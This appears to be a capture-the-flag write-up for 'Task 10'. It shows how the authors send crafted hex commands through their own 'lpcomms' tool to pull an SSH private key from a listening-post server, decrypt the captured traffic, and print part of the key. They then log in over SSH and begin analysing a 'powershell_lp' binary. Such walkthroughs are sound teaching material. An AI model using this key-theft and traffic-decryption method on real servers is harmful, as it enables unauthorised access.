 # Task 10

For the final task, we need to gain access to the LP and discover the IP and port the `psuser` account transmitted data to.

## Obtaining the powershell LP binary
We can leverage the capabilities we built for [task 9](../task-9/README.md) to locate and download an ssh private key to enable ssh access to the LP.  After a bit of poking around, we can see there is a private key at `/home/lpuser/.ssh/id_rsa`.  

We can run the following commands using our `lpcomms` program to retrieve the file while capturing network traffic in Wireshark:

```
# initialize session
115dcb2a6e00000200026e0800101b8cbd03d5e64265b5155556e875c7ddee37e614
# download /home/lpuser/.ssh/id_rsa
115dcb2a6e00000200056e0800101b8cbd03d5e64265b5155556e875c7dd6e1400122f686f6d652f6c70757365722f2e737368006e1c000769645f72736100ee37e614
```

Now that we've captured the network traffic, we can parse the relevant data from the pcap and decrypt using our [cracker](../task-8/cracker.cpp) program from [task 8](../task-8/README.md) to retrieve the key:

```bash
Username: root
Time: 1637111712
Version: +3.3.3.3+
Key: fee76d7693e1c3cdc6168b4fe40a5001523c6d4a6bdc05890ea83fa486330ff3
Decrypted: 11 5d cb 2a 6e 20 06 8b 2d 2d 2d 2d 2d 42 - 4547494e-2052-5341-2050-524956415445 - 20 4b 45 59
RAW:
]�*n �-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAs63gAUxRcrQ5feev3zPMJGnVaelx9zaGYiLU+q7wNNSHExUK
1v6jSyCyr634wl7x+K1rVk1CM1MeGTGW06vS/ilDnZeOwUR01I8NYSiIPDaMH7GP
...
```

Success!  Now we can simply ssh into the server for more robust access.  Once inside, we can poke around more and see that there is indeed a `psuser` home directory.  Within it, we see an interesting binary: `powershell_lp`, and what appear to be some associated logs: `ps_data.log`, `ps_server.log`, and `pslp.log`.  Let's grab each of these and retreat back to our own environment for some additional analysis.

## Analyzing powershell_lp
Initial exploration of `ps_server.log` indicates that it is tracking client connections.  `ps_data.log` seems to be a log of what data has been sent from the client connections.  Let's do some initial exploration of the `powershell_lp` binary:

```bash
$ file powershell_lp
powershell_lp: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, for GNU/Linux 3.2.0, BuildID[sha1]=2d839ebf8fe71992878404be06a9f9ad655ec83b, stripped

$ checksec powershell_lp
[!] Did not find any GOT entries
[*] 'powershell_lp'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    
$ ldd powershell_lp
```